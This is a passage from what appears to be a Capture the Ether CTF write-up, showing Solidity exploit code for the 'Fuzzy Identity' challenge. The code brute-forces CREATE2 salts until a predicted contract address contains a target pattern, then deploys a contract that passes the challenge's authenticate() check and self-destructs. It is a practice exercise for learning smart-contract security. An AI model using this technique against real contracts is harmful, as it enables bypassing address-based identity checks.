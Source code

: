```solidity
        saltNumber += number;
        while(i < saltNumber) {
            bytes32 salt = bytes32(i);
            address predictedAddress = address(uint160(uint256(keccak256(abi.encodePacked(hex"ff", address(this), salt, initHash)))));
            if (isBadCode(bytes20(predictedAddress))) {
                bytes memory bytecode = type(FuzzContract).creationCode;
                address success;
                assembly {
                    success := create2(0, add(bytecode, 32), mload(bytecode), salt)
                }
                FuzzContract(success).done(address(challenge));
                successNumber = i;
                break;
            }
            i ++;
        }
    }
    function attack(uint256 number) external {
        bytes32 salt = bytes32(number);
        bytes memory bytecode = type(FuzzContract).creationCode;
        address success;
        assembly {
            success := create2(0, add(bytecode, 32), mload(bytecode), salt)
        }
        FuzzContract(success).done(address(challenge));
    }
    function isBadCode(bytes20 add) internal pure returns (bool) {
        for (uint256 i = 0; i < 34; i++) {
            if (add & mask == id) {
                return true;
            }
            add >>= 4;
        }
        return false;
    }
    receive() external payable {}
}
contract FuzzContract {
    function done(address challengeAddress) external {
        IFuzzyIdentityChallenge(challengeAddress).authenticate();
        selfdestruct(payable(msg.sender));
    }
    function name() external pure returns (bytes32) {
        return bytes32("smarx");
    }
}
```



###### [Public Key](https://capturetheether.com/challenges/accounts/public-key/)
